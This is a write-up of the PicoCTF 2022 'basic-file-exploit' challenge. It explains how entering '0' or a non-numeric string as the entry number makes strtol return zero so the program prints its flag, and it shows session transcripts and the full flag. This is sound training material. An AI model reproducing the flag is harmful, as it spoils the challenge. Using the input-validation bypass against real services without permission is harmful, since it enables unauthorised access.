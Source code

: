 # PicoCTF 2022
## basic-file-exploit

Tags: Binary Exploitation
AUTHOR: WILL HONG

**Description**: The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it! Connect to the program with netcat:

``$ nc saturn.picoctf.net 55825``

The program's source code with the flag redacted can be downloaded here [program-redacted.c](program-redacted.c).

## Solution / Explanation

Analyzing the source code provied in the challenge, the lines 143 to 147 we can identify the following code:

```
if ((entry_number = strtol(entry, NULL, 10)) == 0) {
    puts(flag);
    fseek(stdin, 0, SEEK_END);
    exit(0);
  }
```
I'm not really an expert in C 🤷‍♂️, but it seems to tell me if ``entry_number`` is ``0``, it will print `puts()` me the flag. 

Searching the function ``strtol()`` on Google didn't give me much. Basically, this function covert the string to a long integer (?). 

So, I connected to the server and I tried to play around with the conditions: 

- If I insert "1" in the prompt, I can enter a new phrase and store it in the server, then I can press "2" and I'm able to read what I stored previously. 
- I noticed that the option "2" always returns "Read successfuly" with at least ONE stored result.

**Output:**

```
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
Oi
Oi
Please enter the length of your data:
2
2
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
1
1
Oi
Read successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
52
52

Read successful, would you like to do anything else?
```

- If I start with the option 2, the server returns me "No data yet" and I can't retrieve anything.

```
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
2
2
No data yet
Please put in a valid number
2
2
No data yet
```

- If I insert negative or big numbers, asks me for put valid numbers, but when I did that, it returns me "Maybe breaking the boundaries elsewhere will be helpful". That's the lines 188 to 191 in the source code ``program-redacted.c``

```
Please put in a valid number
1000
1000
Please type either 1, 2 or 3
Maybe breaking boundaries elsewhere will be helpful
Please put in a valid number
No data given.
Please put in a valid number
-200
-200
Please type either 1, 2 or 3
Maybe breaking boundaries elsewhere will be helpful
Please put in a valid number
No data given.
Please put in a valid number
```

- So I tried giving different inputs after insert one valid entry and got the flag as result. It also worked putting "0" as the input to echo the phrase in the database.

**asdf as input after writing successfuly**
```
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
Oi
Oi
Please enter the length of your data:
2
2
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
asdf
asdf
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_68466E2F}
```
**0 as input after writing successfuly**
```
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
Oi
Oi
Please enter the length of your data:
2
2
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
0
0
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_68466E2F}
```

---
Daniel Reis (@danielxreis) - Cybersecurity Analyst